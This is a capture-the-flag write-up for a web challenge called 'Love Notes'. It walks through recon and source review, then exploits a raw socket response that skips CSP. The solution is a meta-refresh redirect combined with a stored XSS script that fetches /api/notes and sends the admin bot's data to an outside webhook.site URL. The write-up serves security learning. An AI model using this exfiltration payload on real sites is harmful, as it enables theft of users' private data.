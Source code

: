# Love Notes

## Overview 

Write messages to your crush but watch out, some hide secrets and some notes are better left unread

https://love-notes.chal.crewc.tf/

## Initial Recon

![pics1](pics/pics1.png)

After signing up and logging in, we see a dashboard to post and view our notes.

![pics2](pics/pics2.png)

This looks like it could be a SSTI or XSS. Trying all the SSTI testing methods ```{{7*7}}```, just prints the string back to me, which tells me that this is not a SSTI.

Now we look at whether it is possible to inject a script for the bot to execute. However, when we attempt to XSS in either the Title or Content box, the bot doesn't appear to be doing anything. Upon a closer look, we see that the dashboard has a Content Security Policy (CSP) blocking inline script execution.

![pics3](pics/pics3.png)

So it seems that we cannot attempt XSS. Now let's take a closer look at the source code.

## Looking at Source Code

We are given the source code to the website. There are a few things that catches my attention. 

### Firstly we have **start.js**:

> const FLAG = process.env.FLAG ?? 'crewctf{REDACTED}'
>
>    const notes = [
>
>      { title: FLAG, content:  "..."},
>
>      { title: '...' }
>    ];

This tells me that the flag is stored in the enviroment.

### Next we have **bot.js**:

> const notesRouter = require('./routes/notes');
>
> app.use('/api/notes', protectRoute, notesRouter);  

This is very important, because it tells me that everytime the web app is loaded, there is a request to /api/notes which displays the JSON of all user notes. 

We can assume the reporting bot runs with an admin session, because otherwise it wouldn’t have access to other users’ notes. Therefore the bot will have access to the flag.

### Next we have **auth.js**:

> const jwtSecret = crypto.randomBytes(64).toString('hex');

This pretty much tells us that we can't reverse encode our cookies to give ourselves admin access as the jwt key is randomised every time. We can also see that from **start.js** that we cannot guess the admin username and password as well.

>const ADMIN_USER = randomUUID();
>
>const ADMIN_PASS = randomUUID();

### Next we have **notes.js**:

```
router.get('/:noteId', async (req, res) => {
  const { noteId } = req.params;
  try {
    const note = await Note.findById(noteId);
    if (!note) {
      return res.status(404).json({ message: 'Note not found' });
    }

    // Look mom, I wrote a raw HTTP response all by myself!
    // Can I go outside now and play with my friends?
    const responseMessage = `HTTP/1.1 200 OK
Date: Sun, 7 Nov 1917 11:26:07 GMT
Last-Modified: the-second-you-blinked
Type: flag-extra-salty, thanks
Length: 1337 bytes of pain
Server: thehackerscrew/1970 
Cache-Control: never-ever-cache-this
Allow: pizza, hugs, high-fives
X-CTF-Player-Reminder: drink-water-and-keep-hydrated

${note.title}: ${note.content}

`
    res.socket.end(responseMessage)
  } catch (error) {
    console.error(error);
    res.status(500).json({ message: 'Server error' });
  }
});
```

Typically we would see this for CSP headers:

> res.setHeader("Content-Type", "application/json");  
> res.send(note);

or if we are rendering HTML:

> res.render('template', {note});

However, in **note.js**, we see:

> res.socket.end(responseMessage)

There’s no res.setHeader(...) anywhere and no Content-Security-Policy header added. By bypassing Express’s usual ```res.send()``` or templating, the developer also bypasses any default headers like Content-Type or CSP. This means the browser treats the response as raw HTML, making a potential payload run.

Because the server wrote a raw HTTP response with ```res.socket.end```, it omitted headers. This let the browser treat the response as raw HTML, which meant the injected ```<script>``` would execute.

### So how do we exploit this?

The app has a “report” button that causes the admin bot to look at a reported note. If we can control what the bot sees, we can show it any page.

From our tests and observations we notice 2 very helpful things:

1. We cannot run JS/XSS in dashboard as it is CSP protected
2. /api/notes/:id has no CSP protection

Ideally, we want to redirect the bot to look at ```/api/notes/:id```, which contains our payload.

So now we just need to post our payload in one message, and our redirection in another. Then report the redirection to the bot, for the bot to execute the payload. 

What is our payload and redirection going to be?

Because inline ```<script>``` was blocked and CSP applied on the dashboard, but not on ```/api/notes/:id```, we used a harmless HTML tag (```<meta>``` refresh) in a normal note to redirect the bot to the unprotected endpoint where our payload lived.

```
Payload: Contains the actual XSS payload

<script>
  (async()=>{
    try{
      const t = await (await fetch('/api/notes')).text();
      navigator.sendBeacon('https://webhook.site/dccfa4bf-e3ea-4c9c-890d-c92f235baa0c', t);
    }catch(e){}
  })();
</script>
```

```
Redirection: Automatically redirects the bot to specific ID

<meta http-equiv="refresh" content="0;url=/api/notes/6fdfea4d-841d-425b-bc77-5adecdc1fcc8">
```

The ```navigator.sendBeacon()``` call sends the stolen notes data to our webhook endpoint, which logs it for retrieval outside the challenge environment.

This avoids CSP restrictions and is asynchronous, it’s the most reliable way to send data from a victim page to an external server

![pics5](pics/pics5.png)

![pics6](pics/pics6.png)

![pics7](pics/pics7.png)

And we get the flag!

